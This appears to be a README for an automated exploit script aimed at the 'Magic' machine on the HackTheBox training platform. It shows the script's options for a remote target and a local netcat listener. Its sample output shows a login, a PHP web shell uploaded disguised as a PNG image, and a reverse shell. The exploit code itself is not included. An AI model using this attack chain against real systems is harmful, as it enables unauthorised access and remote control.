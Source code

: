 # Magic Box Auto Exploitation Script

This script exploit Auto Hack the Magic Box on HacktheBox using python as Programing language.

## Help Menu 

```
$ ./exploit.py -h
usage: exploit.py [-h] -r RHOST -l LHOST -p LPORT

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        Remote HTTP IP
  -l LHOST, --lhost LHOST
                        Local Netcat IP
  -p LPORT, --lport LPORT
                        Local Netcat Port
```


## Example of use

```
 $ ./exploit.py -r 10.10.10.185 -l 10.10.xx.xx -p 4443

[+] Login Successfully
[+] Shell yndLRknzSTRlTyJh.php.png UPloaded Successfully.
[*] Check your NetCat

```
